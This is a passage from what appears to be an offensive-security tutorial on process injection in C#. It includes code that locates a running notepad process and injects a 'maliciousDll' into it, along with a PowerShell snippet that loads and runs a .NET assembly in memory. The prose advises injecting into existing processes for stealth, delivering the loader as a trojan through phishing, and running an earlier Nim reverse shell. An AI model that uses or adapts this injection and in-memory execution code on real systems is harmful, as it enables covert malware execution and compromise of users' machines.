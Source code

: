 ```c#
        }
```
In our ReflectiveDLLInject function is where the actual injection happens, you can see that we are simply calling the exported functions that are located in the kernel32.dll.
This is a place where you can do further experimentation, such as changing the permission flags you pass for the memory protections, such as MemProtect.PAGE_EXECUTE_READWRITE.

```c#
public static void Main(string[] args) {

        Console.WriteLine("Executing Reflective Dll Injection...");
        string targetProccess = "notepad";
        int targetProccessId = SearchForTargetID(targetProccess);
        ReflectiveDLLInject(targetProccessId, maliciousDll);
        
    }
```

Of course in our Main function, we simply attempt to identify a running notepad process and inject into it. We could alternatively attempt to spawn a process manually using .NET and inject into it however, that may not be as stealthy as injecting into an already running process.

When researching this technique you may wonder why we are using the VirtualAllocEx WindowsAPI function instead of the VirtualAlloc function.
We use VirtualAllocEx because we are allocating memory in another process' address space, if we were not doing this we could use VirtualAlloc.

We can compile this C# program into a .NET assembly using the following command:

```
dotnet build
```

Now that we have a C# .NET binary that will load our trojan into memory, you may wonder how we will deliver it to our target.
It's not like you could easily convince an end user to click on an unsigned binary in your phishing campaign.
Well it's simple, we will use Powershell to execute our .NET binary, if you recall earlier, I mentioned that .NET applications are compiled into bytecode that is consumed by the .NET Common Language Runtime. 
Powershell is actually a thin scripting layer over .NET's System.Management.Automation API, which means that it can also consume .NET bytecode (referred to as .NET Assemblies) and execute them in memory!

The process for doing this is very simple and works with any .NET Assembly:

```ps1
$path = "C:\path\to\my\assembly\MyProgram.exe"
$bytes = [System.IO.File]::ReadAllBytes($path)
$assembly = [System.Reflection.Assembly]::Load($bytes)
$entryPointMethod = $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')
$entryPointMethod.Invoke($null, (, [string[]] ($null)))
```

In the above example you can see that directly within powershell we can load our .NET assembly here named "MyProgram.exe"
We then read the bytes of the assembly and load it into memory, then we use .NET's reflection API to call the Main method of our .NET application.
Keep in mind that you can compile your .NET application as a DLL but do not get confused, you can still use Powershell to execute the .NET DLLs in this exact same way.
Remember the reverse_shell that we developed in Nim is NOT managed code from the .NET runtime perspective, that is why we must use the .NET P/Invoke APIs in kernel32.dll to call the unmanaged code that we developed in Nim.
